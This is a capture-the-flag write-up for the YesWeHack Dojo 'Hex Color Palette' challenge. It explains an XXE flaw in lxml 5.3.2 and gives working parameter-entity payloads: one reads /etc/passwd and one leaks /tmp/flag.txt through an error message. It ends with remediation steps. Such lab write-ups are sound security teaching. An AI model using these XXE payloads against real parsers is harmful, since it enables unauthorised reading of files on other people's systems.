


# 06-25: Hex Color Palette

## Description

> With this application, you can now display your own hex color palettes and unleash your inner UX designer! Simply upload your own XML files to generate custom palettes. Can you find the flag?
>
> The flag can be found in /tmp/flag.txt

## Solution

In this writeup, we'll review the latest [YesWeHack](https://twitter.com/yeswehack) Dojo [challenge](https://dojo-yeswehack.com/challenge-of-the-month/dojo-42), created by [Pwnii](https://twitter.com/pwnwithlove) 💜

Follow me on [Twitter](https://twitter.com/_CryptoCat) and [LinkedIn](https://www.linkedin.com/in/cryptocat) (and everywhere else 🔪) for more hacking content! 🥰

### Source code review

#### setup.py

Starting with the server setup code, we see that the flag is places in the `/tmp` directory, along with a folder of `templates` and `xml` files.



```python
os.chdir("/tmp/")
os.makedirs("templates", exist_ok=True)
os.makedirs("xml", exist_ok=True)

with open("flag.txt", "w") as f:
    f.write(flag)
```



There's a sample XML file and DTD.



```python
with open("xml/sample.xml", 'w') as f:
    f.write('''
<!DOCTYPE colors [
    <!ELEMENT colors (color*)>
    <!ELEMENT color (#PCDATA)>
]>
<colors>
    <color>#FF5733</color>
    <color>#1E3A8A</color>
    <color>#2ECC71</color>
    <color>#F1C40F</color>
    <color>#8E44AD</color>
    <color>#2C3E50</color>
    <color>#FFC0CB</color>
    <color>#00FFFF</color>
</colors>
''')

with open("xml/config.dtd", 'w') as f:
    f.write('''
<!ENTITY % dtd "<!ELEMENT config (#PCDATA)>">
%config_hex;
''')
```



An `index.tpl` file is generated, I'll skip most of the CSS/HTML which does not seem relevant.



```html
<div class="content">
    <h2>Extracted Color Palette</h2>
    <p class="debug">{{ output }}</p>
    <div class="palette">
         
        <div class="color-box" style="background: {{ color }};">{{ color }}</div>
         
        <p class="debug">No colors detected.</p>
        
    </div>
</div>
```



#### challenge.py

Now onto the challenge code. It imports `jinja2` and `lxml` which should make us think of SSTI and/or XXE vulnerabilities. It specifically loads version `5.3.2` of `lxml` so checking if it's the latest version or there are known vulnerabilities should be added to our TODO list.



```python
from jinja2 import Environment, FileSystemLoader
lxml = import_v("lxml", "5.3.2")
from lxml import etree
```



Next, the template is loaded. The `autoescape` option will prevent XSS by escaping HTML variables.



```python
template = Environment(
    autoescape=True,
    loader=FileSystemLoader('/tmp/templates'),
).get_template('index.tpl')
```



A `parse_palette` function is declared. First thing to note is it's susceptibility to XXE attacks:

-   `load_dtd=True` → allows loading external/internal DTDs.
-   `resolve_entities=True` → allows expanding general and parameter entities.



```python
def parse_palette(xml_data):
    parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
    tree = etree.parse(io.StringIO(xml_data), parser)
    root = tree.getroot()
    colors = set()

    # Only parsing hex color
    for elem in root.iter():
        if elem.text and re.match(r"^#(?:[0-9a-fA-F]{3,6})$", elem.text.strip()):
            colors.add(elem.text.strip().lower())

    return list(colors)
```



However, there is some regex on the XML elements to ensure they match a hex colour code format. It must start with a `#`, followed by 3-6 hex characters e.g. `#1337` or `#420420`.

There's one more function; `promptFromXML`. It simply takes a string and passes it to the `parse_palette` function we just looked at.



```python
def promptFromXML(s: str):
    if not s:
        return "No XML data received.", []

    return "Pallet successfully extracted", parse_palette(s)
```



Finally, the script ties it all together. It takes our user input (note this is URL-encoded by the WAF, hence the `unquote`) and passes it to the `promptFromXML` function. The parsed colours will be returned and then rendered using `template.render`.



```python
data = unquote("USER_INPUT_GOES_HERE")

try:
    parsed_text, colors = promptFromXML(data)
except Exception as e:
    parsed_text = f"Error : {str(e)}"
    colors = []

print(template.render(output=parsed_text, colors=colors, image=None))
```



### Testing functionality

The `setup.py` code provided a sample XML file. It's a good idea to test it first, just to visualise the intended functionality of the app.



```xml
<!DOCTYPE colors [
    <!ELEMENT colors (color*)>
    <!ELEMENT color (#PCDATA)>
]>
<colors>
    <color>#1337</color>
    <color>#420420</color>
</colors>
```



The colours are "successfully extracted" from our XML input and rendered in the template.



If we can exploit an XXE vulnerability to read `flag.txt`, we'll need to either:

-   Somehow render the contents as colour codes
-   Trigger an exception that leaks the contents via an error

### XXE in lxml library

Remember when we reviewed the source code and made a note to check for known vulnerabilities in the `lxml` library? Well, version `5.4.0` was released [~6 weeks ago](https://github.com/lxml/lxml/releases/tag/lxml-5.4.0). Why wouldn't Pwnii include the latest version? 🧐

Let's check out the "bugs fixed" section in the release notes.

> LP#2107279: Binary wheels use libxml2 2.13.8 and libxslt 1.1.43 to resolve several CVEs.
> (Binary wheels for Windows continue to use a patched libxml2 2.11.9 and libxslt 1.1.39.)
> Issue found by Anatoly Katyushin, see https://bugs.launchpad.net/lxml/+bug/2107279

Reviewing the link reveals some key information about versions `5.0.0` through `5.3.2`.

> lxml lib from 5.0.0 restricts XXE parsing and requires resolve_entities to disable the restriction

However..

> libxml doesn't restrict Parameter Entities, that leads to XXE:



```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE msg [
	<!ENTITY % a '
		<!ENTITY &#x25; file SYSTEM "/etc/passwd">
		<!ENTITY &#x25; b "<!ENTITY c &#x27;&#x25;file;&#x27;>">
	'>
	%a;
	%b;
]>
<msg>&c;</msg>
```



The challenge meets both conditions:

-   Using `lxml < 5.4.0`
-   `resolve_entities` is set to `True`

### Error-based data exfiltration

Can we do something similar? Let's try and swap out the values.



```xml
<!DOCTYPE colors [
	<!ENTITY % a '
		<!ENTITY &#x25; file SYSTEM "file:///tmp/flag.txt">
		<!ENTITY &#x25; b "<!ENTITY c SYSTEM &#x27;meow://&#x25;file;&#x27;>">
	'>
	%a;
	%b;
]>
<colors><color>&c;</color></colors>
```



1. `%file;` reads `/tmp/flag.txt` (still allowed for parameter entities).
2. `%b;` creates a general entity `c` whose SYSTEM URI becomes `meow://<contents-of-flag.txt>`.
3. When the parser meets `&c;` it tries to fetch that URI but fails and raises an error (apparently `meow` is not a real protocol 🙀).
4. The wrapper catches the exception and prints it: `Error : Invalid URI: meow://FLAG{.*}`.



It worked! We get the flag: `FLAG{3rr0r_B4s3d_XX3_w1th_Sw4G}` 😎

## Remediation

-   Upgrade `lxml >= 5.4.0`.
-   Disable `load_dtd` or at least `resolve_entities` when you do not expect complex DTDs.
-   Sanity‑check and _fully_ whitelist incoming XML before feeding it to a parser.

## Summary (TLDR)

In this challenge, we're given a colour palette viewer that parses XML files using an outdated version of `lxml`. Turns out, it's vulnerable to XXE. With both `load_dtd` and `resolve_entities` enabled, and version `5.3.2` in play, we can pull off a parameter entity injection to leak the contents of `/tmp/flag.txt`. Since the parser throws an error on weird URIs, we abuse that to leak the flag through a debug message. Classic error-based XXE, but with a nice UX-themed twist.
